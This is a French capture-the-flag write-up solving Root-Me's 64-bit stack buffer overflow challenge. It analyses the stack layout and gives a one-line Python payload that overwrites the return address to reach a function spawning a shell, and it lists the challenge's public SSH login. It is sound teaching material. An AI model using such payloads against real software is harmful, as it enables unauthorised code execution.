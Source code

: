 # ELF x64 - Stack buffer overflow - basic

| Auteur/Autrice | Difficulté | Points |
|----------------|------------|--------|
|     [Arod](https://www.root-me.org/Arod?lang=fr)       | Facile |   20    |     

## Sommaire
- [Partie 1 : Analyse de l'exécution](https://github.com/0xS3GFAULT/CTF-WriteUps_Fr/blob/main/rootme/App%20-%20Syst%C3%A8me/Facile/ELF%20x64%20-%20Stack%20buffer%20overflow%20-%20basic/readme.md#partie-1--analyse-de-lex%C3%A9cution)
- [Partie 2 : Analyse statique du code](https://github.com/0xS3GFAULT/CTF-WriteUps_Fr/blob/main/rootme/App%20-%20Syst%C3%A8me/Facile/ELF%20x64%20-%20Stack%20buffer%20overflow%20-%20basic/readme.md#partie-2--analyse-statique-du-code)
- [Partie 3 : Exploitation du buffer overflow](https://github.com/0xS3GFAULT/CTF-WriteUps_Fr/blob/main/rootme/App%20-%20Syst%C3%A8me/Facile/ELF%20x64%20-%20Stack%20buffer%20overflow%20-%20basic/readme.md#partie-3--exploitation-du-buffer-overflow)

## Session SSH

```ssh -p 2223 app-systeme-ch35@challenge03.root-me.org```

Password : ```app-systeme-ch35```

## Partie 1 : Analyse de l'exécution

Comme d'habitude, petit **checksec** du fichier **./ch35** avant de l'exécuter : 

![Screenshot](./assets/images/checksec_ch35.png?raw=true)

Pas de **canary** ni de **PIE** et la pile est exécutable (**NX** = 1) mais l'**ASLR** est activé. Heureusement pour nous, il n'aura aucun effet sur le programme puisque **PIE** = 0. L'exécutable est codé sur 64 bits, donc les adresses sont codées sur 8 octets.

Exécutons le programme : 

![Screenshot](./assets/images/exec_ch35.png?raw=true)

Le programme attend que nous saisissions quelque chose. Nous tapons alors *azerty* et il nous affiche *"Hello azerty"* avant de se fermer. Bon bah c'est tout...

Nous n'avons pas spécialement beaucoup d'informations, mais le code source en langage C du programme compilé nous est donné ! Analysons-le.

## Partie 2 : Analyse statique du code

![Screenshot](./assets/images/code_ch35.png?raw=true)

3 éléments sont déclarés dans la fonction **main** aux lignes 18 et 19 mais rien n'est initialisé :

```
char buffer[256];
int len,i;
```

Voici la représentation simplifiée de la pile : 

<pre>
----------
| buffer | (256 octets)
----------
|  len   | (8 octets)
----------
|   i    | (8 octets)
----------
|  rbp   | (8 octets)
----------
|  ret   | (8 octets)
----------
</pre>

Le **ret** dans la pile représente en fait l'adresse de la prochaine instruction à exécuter une fois l'appel du **main** terminé. C'est une instruction qui peut se traduire en assembleur par :

```
pop rip
jmp rip
```

Ce qui nous permettrait de rediriger le flux d'exécution là où on veut !

Nous voyons assez facilement que la fonction **scanf** à la ligne 21 permet d'écrire bien plus que les 256 octets prévus pour le buffer.
De ce fait, il serait possible de réecrire l'endroit où se situe l'adresse lors de l'exécution du **ret**. Si nous regardons la pile d'un peu plus près, nous comprenons que ```256 + 8 + 8 + 8 = 280 octets ``` sont nécessaires avant d'arriver à l'endroit qui nous intéresse.

Bon tout ça c'est bien beau, mais on écrit quoi dans cet endroit ? Quelle adresse ? L'adresse de la fonction **callMeMaybe** qui permet de faire apparaître un shell **/bin/bash** !

Pour connaître son adresse, plusieurs méthodes sont possibles. Puisque l'exécutable est *not stripped*, les symboles sont toujours présents. Nous pourrions en extraire une adresse grâce à la commande ```nm```:

![Screenshot](./assets/images/nm_ch35.png?raw=true)

L'adresse à écrire est donc ```0x00000000004005e7```

Nous avons tous les éléments pour exploiter notre buffer overflow.

## Partie 3 : Exploitation du buffer overflow

A l'aide du langage de programmation Python, nous pouvons écrire le payload suivant : ```(python -c "print('A'*280+'\xe7\x05\x40\x00\x00\x00\x00\x00')";cat -) | ./ch35```

Il ne faut pas oublier le ```cat -``` qui permet de bloquer l'entrée standard **stdin** car le shell **/bin/bash** se refermera aussitôt.

Il n'y a plus qu'à se servir :

![Screenshot](./assets/images/exploit_ch3.png?raw=true)

:)
